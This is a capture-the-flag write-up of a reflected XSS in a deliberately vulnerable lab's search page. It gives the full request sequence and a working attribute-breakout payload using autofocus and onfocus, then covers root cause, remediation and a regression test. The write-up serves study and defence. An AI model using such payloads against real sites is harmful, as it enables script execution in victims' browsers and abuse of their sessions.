## Executive Summary

The WebVerse **Echoed** challenge contained a reflected cross-site scripting vulnerability in its search function. The application accepted attacker-controlled input through the `q` query-string parameter and reflected the same value into two separate locations in the HTML response.

The textual result sink applied HTML encoding, but the search input repopulation sink inserted the value directly into a double-quoted `value` attribute without encoding the quotation-mark delimiter.

A controlled quote differential demonstrated that an injected double quote terminated the original attribute. A harmless `data-*` canary then confirmed that attacker-controlled attributes could be added to the existing input element. The final payload introduced `autofocus` and `onfocus`, causing Chromium to execute JavaScript in the target origin.

The application subsequently returned `solved: true` and the redacted current-instance flag through `/__status.php`.

> **Confirmed finding:** Reflected XSS in `GET /find.php` through the `q` parameter, caused by missing context-specific output encoding in a double-quoted HTML attribute.

## Finding at a Glance

| Field | Value |
|---|---|
| Vulnerability | Reflected Cross-Site Scripting (XSS) |
| Affected endpoint | `GET /find.php` |
| Affected parameter | `q` |
| Sink | `value="..."` attribute of the search input |
| Execution primitive | Quote breakout → injected `autofocus` and `onfocus` attributes |
| Browser proof | Chromium JavaScript alert showing the target domain |
| Authoritative oracle | `GET /__status.php` returned `solved: true` and the current-instance flag |
| CWE mapping | CWE-79 and CWE-116 |
| Severity | Context-dependent; not formally scored in the educational lab |
| Final result | Solved |

## 1. Lab Information and Scope

| Field | Value |
|---|---|
| Platform | WebVerse |
| Challenge | Echoed |
| Challenge type | Daily Challenge |
| Difficulty | Easy |
| Authorization | Deliberately vulnerable educational target |
| Environment | Kali Linux virtual machine |
| Primary proxy tool | Caido |
| Authoritative browser | Chromium |
| Target | `https://95054e68-4414-echoed-8ec13.mystery-challenges.webverselabs-pro.com/` |

The reproduction was limited to the active WebVerse challenge instance. Historical notes were used only to identify the expected route grammar and vulnerability family. The active hostname, server responses, browser behavior, solved state, and flag were recollected from the fresh instance.

No testing was performed against a real organization, production system, or third-party user. The workflow remained within the intended educational scope and stopped once the lab objective was authoritatively confirmed.

### Vulnerability Classification

- **CWE-79:** Improper Neutralization of Input During Web Page Generation
- **CWE-116:** Improper Encoding or Escaping of Output
- **Class:** Reflected XSS in a server-rendered HTML attribute context
- **Delivery model:** Crafted URL containing attacker-controlled `q` input

## 2. Application and Request Flow

The application exposed a search form that submitted the `q` parameter through a GET request to `/find.php`. A normal browser action was captured in Caido before any security mutation was introduced. This established the exact current-instance host, HTTP method, path, and parameter placement.

```http
GET /find.php?q=black+umbrella HTTP/1.1
Host: 95054e68-4414-echoed-8ec13.mystery-challenges.webverselabs-pro.com
```



*Figure 1 — Caido raw baseline request confirming the current host, GET method, `/find.php` route, and `q` query parameter.*

The baseline response repopulated the search input and displayed the same value in the no-results heading. This established two independent reflection locations that required separate output-context analysis.



*Figure 2 — Baseline HTML response showing `black umbrella` inside the input value attribute and the textual result heading.*



*Figure 3 — Normal browser baseline: the search value is displayed without executable behavior or a solved-state banner.*

## 3. Normal Baseline

The normal request produced HTTP `200` and returned the search value in two locations.

The first reflection occurred within a double-quoted attribute:

```html
<input class="ct-search__input" type="text" name="q"
       value="black umbrella" ...>
```

The second reflection occurred in HTML text content:

```html
<h2>No items match &ldquo;black umbrella&rdquo;</h2>
```

> **Baseline conclusion:** The `q` parameter controlled both an HTML attribute sink and an HTML text sink. Security could not be inferred globally; each occurrence required its own encoding test.

## 4. Reflection Mapping

A unique inert marker was sent through Caido Replay. Only the `q` value was changed; the host, method, path, and request headers remained unchanged.

```http
GET /find.php?q=ECHO_CAIDO_CTX_24A91 HTTP/1.1
Host: 95054e68-4414-echoed-8ec13.mystery-challenges.webverselabs-pro.com
```



*Figure 4 — Caido Replay request containing the inert reflection marker.*

The response contained the marker twice: once in the `value` attribute and once in the textual result. The marker was inert, so this phase proved reflection and sink location only; it did not yet prove parser breakout or JavaScript execution.



*Figure 5 — The inert marker reflected in both the double-quoted attribute sink and the HTML text sink.*

## 5. Controlled Quote Differential

The next Replay request introduced one context-relevant character: a double quote. The `_END` suffix made the output boundary visible and prevented ambiguous interpretation.

Decoded `q` value:

```text
ECHO_CAIDO_DQ_7A91"_END
```

Encoded request:

```http
GET /find.php?q=ECHO_CAIDO_DQ_7A91%22_END HTTP/1.1
```



*Figure 6 — Caido Replay request introducing a single encoded double quote in `q`.*

The response produced a decisive sink-specific differential.

In the search input, the attacker-supplied quote remained raw and terminated the original `value` attribute:

```html
value="ECHO_CAIDO_DQ_7A91"_END"
```

In the textual heading, the same quote was encoded as `&quot;`:

```html
<h2>No items match &ldquo;ECHO_CAIDO_DQ_7A91&quot;_END&rdquo;</h2>
```



*Figure 7 — Full response differential: raw quote in the `value` attribute and encoded `&quot;` in the text sink.*

> **Decisive observation:** The first sink failed to encode the delimiter of its own HTML context. The second sink was encoded correctly. This isolated the vulnerability to the input `value` attribute rather than to the entire response.

## 6. Benign Attribute-Canary Validation

Before introducing executable JavaScript, a harmless `data-*` canary was used to verify structural control over the HTML tag. This reduced false-positive risk by distinguishing raw reflection from the creation of a new attacker-controlled attribute.

Decoded `q` value:

```text
ECHO_CAIDO_CANARY_84A2" data-echo-canary="CONFIRMED
```

Encoded request:

```http
GET /find.php?q=ECHO_CAIDO_CANARY_84A2%22+data-echo-canary%3D%22CONFIRMED HTTP/1.1
```



*Figure 8 — Caido Replay request containing the benign `data-echo-canary` attribute payload.*

The server returned a syntactically separate `data-echo-canary` attribute between the original `value` and `placeholder` attributes:

```html
<input class="ct-search__input" type="text" name="q"
       value="ECHO_CAIDO_CANARY_84A2"
       data-echo-canary="CONFIRMED"
       placeholder="Describe your item, e.g. black umbrella" ...>
```



*Figure 9 — Caido response showing `data-echo-canary="CONFIRMED"` as a separate attribute in the input element.*

This provided a safe parser-boundary proof: the input controlled more than displayed text and could alter the attribute structure of an existing HTML element. JavaScript execution was still required to confirm XSS.

## 7. Browser-Runtime XSS Proof

The final proof payload was selected for the confirmed sink rather than by using a generic script-tag payload. Because the reflection already occurred inside an input element, the payload closed the `value` attribute and added event attributes to that existing element.

```text
ECHOED_CAIDO_XSS_5A91" autofocus onfocus=alert(document.domain) x="
```

The payload components had specific roles:

- `"` terminated the original double-quoted `value` attribute.
- `autofocus` caused the injected input element to receive focus when the page loaded.
- `onfocus=alert(document.domain)` provided a benign, visible execution proof in the target origin.
- `x="` stabilized the remaining server-rendered attribute sequence.

Chromium rendered the response and displayed a JavaScript alert containing the active target domain. This proved browser-side JavaScript execution in the origin of the vulnerable application.



*Figure 10 — Chromium runtime proof: `alert(document.domain)` executed on the active Echoed origin.*

> **Browser proof:** Caido established the HTTP and HTML differential. Chromium established the security effect: JavaScript execution in the target origin.

## 8. Authoritative Solve-State Readback

After the event handler executed, the page displayed a solved-state banner containing a new flag for the active instance. The current flag differed from the historical solution material, confirming that the result had been freshly reproduced rather than copied from a prior instance.



*Figure 11 — Final browser state showing the application solve banner and the redacted current-instance flag.*

Caido also captured the browser request to the application status endpoint:

```http
GET /__status.php HTTP/1.1
Host: 95054e68-4414-echoed-8ec13.mystery-challenges.webverselabs-pro.com
```



*Figure 12 — Caido request to `/__status.php` from the same Chromium context.*

The server returned an explicit JSON result with `solved` set to `true` and the same redacted flag displayed in the browser:

```json
{
  "solved": true,
  "flag": "WEBVERSE{REDACTED}"
}
```



*Figure 13 — Authoritative server response confirming `solved: true` and the redacted current-instance flag.*

> **Authoritative final oracle:** The browser banner was independently supported by the server-side `/__status.php` JSON response. The result was therefore not a static UI artifact or a local-only DOM effect.

## 9. Technical Root Cause

The root cause was missing context-specific output encoding when the `q` parameter was written back into a double-quoted HTML attribute. The application treated the same character differently across separate output locations: the text sink encoded the quotation mark, while the `value` attribute sink left the same delimiter raw.

### Vulnerable Rendering Pattern

```php
<input name="q" value="<?= $q ?>">
```

The exact server-side implementation was not exposed, but the reproduced response is consistent with direct template interpolation or equivalent HTML construction without attribute-safe encoding.

### Why Partial Filtering Failed

Removing or encoding angle brackets would not close this vulnerability. The attacker did not need to create a new tag because the injection point already existed inside a valid input element. A raw double quote was sufficient to exit the intended value and introduce event-handler attributes.

```text
Blocked < and >
+ raw " in a double-quoted attribute
= attribute injection and XSS remain possible
```

### Correct Rendering Pattern

For PHP-based rendering, the value should be encoded for the HTML attribute context, including both quote characters:

```php
<input
  name="q"
  value="<?= htmlspecialchars($q, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') ?>"
>
```

## 10. Evidence Interpretation and False-Positive Controls

| Control | Interpretation |
|---|---|
| Reflection alone | The inert marker proved that `q` was reflected, but no XSS claim was made at that stage. |
| Per-sink analysis | The text reflection encoded the quote correctly; this did not imply that the separate attribute sink was safe. |
| Raw quote alone | The quote differential proved boundary failure, but the benign canary was used before claiming structural control. |
| HTML injection alone | The `data-*` canary proved a new attribute could be added, but it was not treated as JavaScript execution. |
| Browser execution | The Chromium alert directly proved JavaScript execution in the active target origin. |
| UI artifact control | The `/__status.php` response independently confirmed `solved: true` and returned the same flag. |
| Fresh-instance control | The current flag differed from the historical source material, proving that dynamic evidence was rebound to the active instance. |

## 11. Impact

In a real application, an attacker could place the crafted `q` value in a URL and induce a victim to open it. Successful execution would run JavaScript under the origin of the vulnerable site and with the browser privileges available to that origin.

Potential consequences include:

- Reading DOM content available to the victim on the affected page
- Issuing same-origin HTTP requests using the victim browser context
- Modifying application-visible state where the victim is authorized to perform the underlying operation
- Presenting phishing or deceptive content inside a trusted origin
- Chaining with separate authorization or business-logic weaknesses

Session-cookie theft must not be assumed automatically. Cookies marked `HttpOnly` are not readable by JavaScript. However, XSS can still perform credentialed same-origin actions through the victim browser, subject to application behavior and other controls.

> **Impact qualification:** The educational lab confirms the XSS primitive and origin-level JavaScript execution. Real-world severity would depend on authentication context, exposed data, available state-changing functions, CSP, and other defense-in-depth controls.

## 12. Remediation

### 12.1 Apply Context-Aware Output Encoding

Encode untrusted values at the point of output according to the exact sink. For a double-quoted HTML attribute, encode ampersands, angle brackets, and both quote characters. Use the framework or template engine default escaping mechanism rather than manual string concatenation.

### 12.2 Enable Template Auto-Escaping

Use a template engine with HTML auto-escaping enabled. Raw-output helpers should be reserved for content that is demonstrably trusted and static.

### 12.3 Remove Blacklist-Based Sanitization as the Primary Control

Do not rely on stripping `<script>`, angle brackets, or selected event-handler names. Attribute-context exploitation does not require a new tag, and blacklist approaches do not model browser parser behavior reliably.

### 12.4 Add CSP as Defense in Depth

A restrictive Content Security Policy can reduce exploitability, particularly by blocking inline event handlers, but it does not repair the output-encoding defect. CSP should supplement, not replace, correct rendering.

```http
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-<random>'; object-src 'none'; base-uri 'none'
```

### 12.5 Add a Regression Test

A server-side and browser-level regression test should verify that a quote-containing value remains inert and does not produce separate `autofocus` or `onfocus` attributes.

Input:

```text
TEST" autofocus onfocus=alert(1) x="
```

Expected safe output:

```html
value="TEST&quot; autofocus onfocus=alert(1) x=&quot;"
```

## 13. Reproduction Reference

The following sequence reproduces the finding against the authorized lab instance. Ephemeral WebVerse instances may expire or be replaced.

### 13.1 Baseline

```http
GET /find.php?q=black+umbrella HTTP/1.1
Host: 95054e68-4414-echoed-8ec13.mystery-challenges.webverselabs-pro.com
```

### 13.2 Inert Reflection Marker

```http
GET /find.php?q=ECHO_CAIDO_CTX_24A91 HTTP/1.1
```

### 13.3 Quote Differential

```http
GET /find.php?q=ECHO_CAIDO_DQ_7A91%22_END HTTP/1.1
```

### 13.4 Benign Attribute Canary

```http
GET /find.php?q=ECHO_CAIDO_CANARY_84A2%22+data-echo-canary%3D%22CONFIRMED HTTP/1.1
```

### 13.5 Browser Proof Payload

Decoded:

```text
ECHOED_CAIDO_XSS_5A91" autofocus onfocus=alert(document.domain) x="
```

URL-encoded `q` value:

```text
ECHOED_CAIDO_XSS_5A91%22+autofocus+onfocus%3Dalert%28document.domain%29+x%3D%22
```

### 13.6 Authoritative Status Check

```http
GET /__status.php HTTP/1.1
Host: 95054e68-4414-echoed-8ec13.mystery-challenges.webverselabs-pro.com
```

The status endpoint returned `solved: true` and the redacted current-instance flag after the browser-runtime payload executed.

## 14. Final Result and Conclusion

The investigation began with a legitimate search request captured in Caido. Per-occurrence reflection mapping showed that the `q` value entered two different HTML contexts. A single-character differential then identified the decisive flaw: the double quote was encoded in the text sink but remained raw inside the search input `value` attribute.

The benign `data-*` canary proved controlled attribute creation without executing code. A minimal `autofocus`/`onfocus` payload then executed JavaScript in Chromium on the current target origin. Finally, Caido captured the application status response returning `solved: true` and the same flag displayed in the browser.

The evidence chain supports a confirmed reflected XSS finding and excludes reflection-only, UI-only, and historical-result false positives.

```text
CURRENT-INSTANCE FLAG: WEBVERSE{REDACTED}
STATUS: SOLVED / VERIFIED
```
